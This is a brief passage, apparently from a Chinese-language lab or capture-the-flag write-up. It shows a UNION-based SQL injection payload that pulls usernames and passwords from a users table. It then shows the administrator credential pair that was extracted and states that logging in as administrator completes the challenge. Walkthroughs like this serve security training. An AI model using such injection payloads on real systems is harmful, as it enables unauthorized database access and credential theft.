 ```
' union select username_bedrkp,password_pkrlwk from users_ivcwxi--+
```

![image-20250430221647405](./img/image-20250430221647405.png)

```
administrator:4udhtsyhp34wa4w9lex7
```

登录`administrator`用户，完成挑战

![image-20250430221723180](./img/image-20250430221723180.png)
